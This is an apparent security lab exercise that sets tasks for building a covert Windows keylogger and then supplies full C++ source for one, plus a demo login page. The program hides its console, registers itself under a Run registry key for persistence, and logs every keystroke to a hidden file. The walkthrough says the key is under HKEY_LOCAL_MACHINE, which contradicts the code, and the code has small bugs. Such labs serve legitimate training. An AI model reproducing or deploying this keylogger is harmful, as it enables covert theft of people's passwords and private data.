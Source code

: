 # Write A Standalone Keylogger
A keylogger is a type of malware used in cyberattacks to steal sensitive information by recording keystrokes on a victim's computer. Often installed covertly through phishing emails, it captures login credentials and personal data for attackers to misuse


## References
- [Keystroke Logging](https://en.wikipedia.org/wiki/Keystroke_logging) by Wikipedia
- [GetAsyncKeyState](https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-getasynckeystate) by Microsoft
- [Keylogger](https://github.com/shubhangi-singh21/Keylogger) by shubhangi-singh21 on GitHub


## Tasks
- Setup a Windows VM
- Write a custom keylogger program with the following capabilities
  - The program starts executing when the system boots
  - The program runs as a background process without affecting any foreground processes
  - The program logs all user keystrokes in hidden files on the same disk
  - The program must use minimal resources to avoid detection
- Keylogger Creation Guidelines
  - You can use Windows APIs in your program
  - Use a programming language of your choice
  - Compile the program into a binary for deployment
- Deploy the keylogger binary in your VM
- Configure the keylogger to execute when the system starts
- Open a web browser and input a fictional username and password into a login form


## Benchmarks
- Validate that your keylogger starts at system boot time
- Validate that your keylogger records all keystrokes in hidden files
- Validate that your keylogger runs as a background process (you can view the active process listing in 'Task Manager')


## Solutions With Scripts
1. Save the following C++ program and compile it into a binary file called `keylogger.exe` to be used in a Windows 10 VM
   ```
    #include <iostream>
    #include <windows.h>
    
    using namespace std;
    
    int Save(int _key, char *file);
    
    void AddToStartup() {
        char filePath[MAX_PATH];
        GetModuleFileName(NULL, filePath, MAX_PATH);
        HKEY hKey;
        RegOpenKey(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", &hKey);
        RegSetValueEx(hKey, "MyKeylogger", 0, REG_SZ, (BYTE*)filePath, strlen(filePath) + 1);
        RegCloseKey(hKey);
    }
    
    void HideLogFile() {
        SetFileAttributes("log.txt", FILE_ATTRIBUTE_HIDDEN);
    }
    
    int main() {
        FreeConsole();
        AddToStartup();
        HideLogFile();
    
        char i;
        while (true) {
            Sleep(10);
            for (i = 8; i <= 255; i++) {
                if (GetAsyncKeyState(i) == -32767) {
                    Save(i, (char*)"log.txt");
                }
            }
        }
        return 0;
    }
    
    int Save(int _key, char *file) {
        FILE *OUTPUT_FILE;
        OUTPUT_FILE = fopen(file, "a+");
        switch (_key) {
            case VK_SHIFT: fprintf(OUTPUT_FILE, "[SHIFT]"); break;
            case VK_BACK: fprintf(OUTPUT_FILE, "[BACKSPACE]"); break;
            case VK_LBUTTON: fprintf(OUTPUT_FILE, "[LBUTTON]"); break;
            case VK_RBUTTON: fprintf(OUTPUT_FILE, "[RBUTTON]"); break;
            case VK_RETURN: fprintf(OUTPUT_FILE, "[ENTER]"); break;
            case VK_TAB: fprintf(OUTPUT_FILE, "[TAB]"); break;
            case VK_ESCAPE: fprintf(OUTPUT_FILE, "[ESCAPE]"); break;
            case VK_CONTROL: fprintf(OUTPUT_FILE, "[CTRL]"); break;
            case VK_MENU: fprintf(OUTPUT_FILE, "[ALT]"); break;
            case VK_CAPITAL: fprintf(OUTPUT_FILE, "[CAPS LOCK]"); break;
            case VK_SPACE: fprintf(OUTPUT_FILE, "[SPACE]"); break;
        }
        fprintf(OUTPUT_FILE, "%s", &_key);
        fclose(OUTPUT_FILE);
        return 0;
    }
   ```
2. Save the following HTML file as `login.html` for the purpose of inputting a fictional username and password in the login form
   ```
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Demo Login Page</title>
    </head>
    <body>
        <h1>Login</h1>
        <form>
            <label for="username">Username:</label><br>
            <input type="text" id="username" name="username"><br><br>
            <label for="password">Password:</label><br>
            <input type="password" id="password" name="password"><br><br>
            <button type="submit">Login</button>
        </form>
    </body>
    </html>
   ```
3. Reboot the Windows 10 VM. Since the keylogger executable creates an entry in the registry at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`, it will autorun at startup
   ![image](https://github.com/user-attachments/assets/9dc68225-187c-4afe-a4d8-dc935422cc7a)
4. Open `login.html` in a web browser. Show that the keylogger records all keystrokes in hidden files
   
